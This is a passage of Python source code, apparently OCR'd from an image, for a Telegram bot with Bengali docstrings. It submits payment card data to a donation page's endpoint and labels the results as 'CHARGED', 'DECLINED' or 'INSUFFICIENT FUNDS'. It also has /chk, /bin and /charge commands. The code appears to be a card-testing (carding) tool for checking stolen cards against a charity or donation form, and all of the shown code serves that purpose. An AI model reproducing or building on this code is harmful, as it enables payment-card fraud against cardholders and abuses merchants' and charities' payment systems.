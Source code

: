         self.headers_donation['x-csrf-token'] = tokens['csrf_token']
        
        response = self.session.post(
            self.config['donation_url'],
            cookies=cookies,
            headers=self.headers_donation,
            data=data,
            timeout=self.config['timeout']
        )
        
        return response
    
    def advanced_response_analysis(self, response_text):
        """এডভান্স রেসপন্স অ্যানালাইসিস"""
        analysis = {"reason": ""}
        response_lower = response_text.lower()
        
        bank_patterns = {
            "insufficient funds": ["insufficient", "low balance"],
            "security block": ["security", "verification needed"],
            "invalid card": ["invalid card", "not recognized"],
            "card declined": ["declined", "do_not_honor"]
        }
        
        for pattern, keywords in bank_patterns.items():
            if any(keyword in response_lower for keyword in keywords):
                analysis["reason"] = pattern
                break
        
        return analysis
    
    def categorize_response(self, response_text):
        """রেসপন্স ক্যাটাগরাইজ করুন"""
        response = response_text.lower()

        if any(kw in response for kw in ["succeeded", "successfully", "thank you"]):
            return "CHARGED 🔥"
        elif any(kw in response for kw in ["insufficient", "low balance"]):
            return "INSUFFICIENT FUNDS 💰"
        elif any(kw in response for kw in ["declined", "do_not_honor"]):
            return "DECLINED ❌"
        else:
            return "UNKNOWN STATUS 👾"
    
    def run_bot(self):
        """Start the Telegram bot"""
        application = Application.builder().token(self.token).build()
        
        # Add handlers
        application.add_handler(CommandHandler("start", self.start_command))
        application.add_handler(CommandHandler("help", self.help_command))
        application.add_handler(CommandHandler("chk", self.chk_command))
        application.add_handler(CommandHandler("bin", self.bin_command))
        application.add_handler(CommandHandler("charge", self.charge_command))
        application.add_handler(CommandHandler("stats", self.stats_command))
        application.add_handler(CommandHandler("kill", self.kill_command))
        application.add_handler(CallbackQueryHandler(self.button_handler))
        